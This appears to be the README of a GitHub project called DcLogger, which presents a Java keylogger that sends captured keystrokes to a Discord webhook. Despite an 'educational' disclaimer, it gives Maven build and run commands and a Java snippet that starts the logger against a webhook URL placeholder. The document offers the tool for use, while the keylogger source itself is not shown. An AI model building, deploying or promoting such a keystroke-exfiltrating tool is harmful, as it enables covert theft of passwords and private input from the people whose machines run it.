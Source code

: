 <h1 align="center">DcLogger</h1>

<p align="center">A simple key logger application which sends the keys to a discord webhook implemented in Java.</p>

<div align="center">
    <a href="https://lyzev.github.io/discord/"><img src="https://img.shields.io/discord/610120595765723137?logo=discord" alt="Discord"/></a>
    <br><br>
    <img src="https://img.shields.io/github/last-commit/Lyzev/DcLogger" alt="GitHub last commit"/>
    <img src="https://img.shields.io/github/commit-activity/w/Lyzev/DcLogger" alt="GitHub commit activity"/>
    <br>
    <img src="https://img.shields.io/github/languages/code-size/Lyzev/DcLogger" alt="GitHub code size in bytes"/>
    <img src="https://img.shields.io/github/contributors/Lyzev/DcLogger" alt="GitHub contributors"/>
</div>

## Disclaimer
Please note, this repository is for educational and proof of concept purposes only. The information and code contained within it should not be used for any illegal or unethical activities. The contributors to this repository are not liable for any actions taken or damages caused by the use of the information or code provided here. It is the responsibility of the user to ensure compliance with all applicable laws and regulations, and to obtain any necessary permissions before using the code or information.

## Usage

### How to Build and Run Project
Build project: 
```bash
mvn package
```
Run ./target/DcLogger-jar-with-dependencies.jar file using command:
```bash
java -jar ./target/DcLogger-jar-with-dependencies.jar
```
The keys will be sent to the provided webhook.

### Example
```java
/**
 * This is an example on how to use {@link KeyLogger}.
 *
 * @throws MalformedURLException the exception is going to be thrown if the url is incorrect
 */
public static void main(String[] args) throws MalformedURLException {
    KeyLogger logger = new KeyLogger("WEBHOOK-URL"); // Declares and initializes the keylogger
    logger.start(); // Registers the NativeLogger (If it isn't registered the event will not be called, so nothing would be logged)
}
```

## Bugs and Suggestions
Bug reports and suggestions should be made in this repo's [issue tracker](https://github.com/Lyzev/DcLogger/issues) using the templates provided. Please provide as much information as you can to best help us understand your issue and give a better chance of it being resolved.

## Credits
* [vakho10](https://github.com/vakho10) for [java-keylogger](https://github.com/vakho10/java-keylogger)
